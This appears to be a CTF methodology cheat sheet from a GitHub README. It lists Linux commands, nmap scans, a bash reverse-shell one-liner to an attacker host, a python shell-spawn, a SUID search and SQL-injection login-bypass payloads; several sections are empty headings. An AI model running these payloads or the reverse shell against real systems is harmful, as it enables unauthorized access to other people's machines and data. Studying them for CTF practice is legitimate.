 # Table of Content
- [Useful Script](#useful)
   - [Useful Linux Command](#linux)
   - [Useful Reverse Shell](#reverseshell)
   - [Reconnaissance](#recon)
      - [Nmap](#nmap)
      - [Nikto](#nikto)
   - [Privilege Escalation](#privesc)
      - [Shell Spawning](#shellspawn)
      - [SUID](#suid)
- [CTF Methodology](#ctfmethod)
   - [Web App](#webapp)
      - [SQL Injection](#sqlinj)
      - [XSS](#xss)
      - [Subdomain Takeover](#subdomain)


<a name="useful"></a>
# Useful Script
<a name="linux"></a>
## Useful Linux Command

- ```ls```: List every file in a directory
- ```ls -al```: List every file in directory with its chmod.
- ```cd [directory]```: Enter a directory
- ```cd ..```: Go back up one directory
- ```cd ~```: go back to home directory
- ```pwd```: current folder
- ```strings [file]``` : Grab human readable strings from a binary file
- ```file [directory] -type f -size 1033c -executable -readable```: Find a human readable file with size 1033, and executable.
- ```chmod +x [file]```: Add executable to file's chmod;
- ```uniq [file1] [file2]```: Find the unique line between two files
- ```base64 -d [file]```: Use base64 to decode text stored in file.
- ```cat [file] | tr 'A-Za-z' 'N-ZA-Mn-za-m'```: Open a file and rot13
- ```xxd [file]```: Read binary data of a file

<a name="recon"></a>
## Reconnaissance

<a name="nmap"></a>
### Nmap

- ```nmap -p- -oA full-nonscripts [Target IP] --max-retries 0```: 
- ```nmap -sC -sV -O -oA [file] [target ip]```:




<a name="nikto"></a>
### Nikto

<a name="reverseshell"></a>
## Useful Reverse Shell

```bash -i >& /dev/tcp/[host]/[port] 0>&1```

<a name ="privesc"></a>
## Privilege Escalation

<a name="shellspawn"></a>
### Shell Spawning 

```python
python -c 'import pty;pty.spawn("/bin/sh")'
```


<a name="suid"></a>
### SUID

To find file with SUID bit. Simply use following command:

```
find [directory] -perm -u=s -type f 2>/dev/null
```

<a name="ctfmethod"></a>
# CTF Methodlogy

<a name="webapp"></a>
## Web App 

<a name="sqlinj"></a>
### SQL Injection

#### Login Form 
Normally, a POST request would takes two parameters (i.e. username and password) from the login form. Thus, the SQL command at the backend is look something like this:

```SQL
SELECT * from TABLE where USERNAME='USERNAME' AND PASSWORD = 'PASSWORD';
```
The statement above mainly ask the Database to select the user where the username and password are matched with the one we input to the login form. 

Now, if we put below payload into the username field, 

```SQL
admin' OR 1=1 --
```
the whole SQL statement would becomes this:

```SQL
SELECT * from TABLE where USERNAME='admin' OR 1=1 --AND PASSWORD='PASSWORD';
```
So, now the statement above now turns to select the user where username is admin or 1=1. Please pay attention that ```--``` means comment out the rest of the statement. Thus, it doesnt matter whether you have put in anything to the password field. Now, the database would return the whole list of user from their database. And normally, a session with the first user in the database would be created for us. If the statement above can't log you in, you may also try something like below as SQL syntax might slightly varies in different brands of SQL.

```SQL
admin' OR 1=1 #
admin" OR 1=1 #
admin" OR 1=1 --
```
If above can log you in and you want to login as other users, you may use the statement below:

```SQL
 ' UNION SELECT 1 --
```
Thus, the whole SQL statement would becomes:

```SQL
SELECT * from TABLE where USERNAME='' UNION SELECT 1 --AND PASSWORD='PASSWORD';
```


```SQL
 ' UNION SELECT 1,2 # 
 ' UNION SELECT 1,2,3 # 
```


<a name = "xss"></a>
### XSS

<a name ="subdomain"></a>
### Subdomain Takeover


